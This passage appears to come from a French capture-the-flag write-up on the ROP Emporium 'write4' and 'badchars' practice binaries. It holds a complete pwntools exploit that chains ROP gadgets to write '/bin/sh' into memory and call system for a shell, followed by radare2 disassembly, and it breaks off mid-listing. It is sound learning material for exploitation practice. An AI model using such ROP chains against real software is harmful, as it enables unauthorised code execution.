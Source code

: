 Nous allons donc appeler `system` avec l'adresse `0x004005e0`.

~~~bash
root@kali:~/rop_emporium/write4# ROPgadget --binary write4 | grep "pop rdi"
0x0000000000400893 : pop rdi ; ret
~~~
Le `pop rdi` se trouve donc a `0x400893`.

> Une nouvelle fois nous occulterons cette partie répétitive. 
> Taille du bourrage :  40

Voici l'exploit : 

~~~python
#!/usr/bin/env python

from pwn import * 

junk = "A"*40
pop_rdi = p64(0x400893)
data_addr = p64(0x601050)
system = p64(0x4005e0)

binsh = "/bin/sh\x00" #/bin//sh work too
mov_qword = p64(0x400820)
pop_r14_r15 = p64(0x400890)


p = process("./write4")

payload = junk
payload += pop_r14_r15 
payload += data_addr 
payload += binsh 
payload += mov_qword 
payload += pop_rdi 
payload += data_addr 
payload += system 

print payload 

info("Send magic bytes in binary")

p.recvuntil(">")
p.sendline(payload)
p.interactive()
~~~

## badchars 
Ce challenge est globalement le même qu'avant mais avec des caractères interdis. 
Avec radare2 nous trouvons la main qui appel une fonction `pwnme` qui appelle `checkbadchars`: 

~~~bash
    ; CALL XREF from sym.pwnme (0x4009b0)
|           0x00400a40      55             push rbp
|           0x00400a41      4889e5         mov rbp, rsp
|           0x00400a44      48897dd8       mov qword [local_28h], rdi  ; arg1
|           0x00400a48      488975d0       mov qword [local_30h], rsi  ; arg2
|           0x00400a4c      c645e062       mov byte [local_20h], 0x62  ; 'b' ; 98
|           0x00400a50      c645e169       mov byte [local_1fh], 0x69  ; 'i' ; 105
|           0x00400a54      c645e263       mov byte [local_1eh], 0x63  ; 'c' ; 99
|           0x00400a58      c645e32f       mov byte [local_1dh], 0x2f  ; '/' ; 47
|           0x00400a5c      c645e420       mov byte [local_1ch], 0x20  ; 32
|           0x00400a60      c645e566       mov byte [local_1bh], 0x66  ; 'f' ; 102
|           0x00400a64      c645e66e       mov byte [local_1ah], 0x6e  ; 'n' ; 110
|           0x00400a68      c645e773       mov byte [local_19h], 0x73  ; 's' ; 115
~~~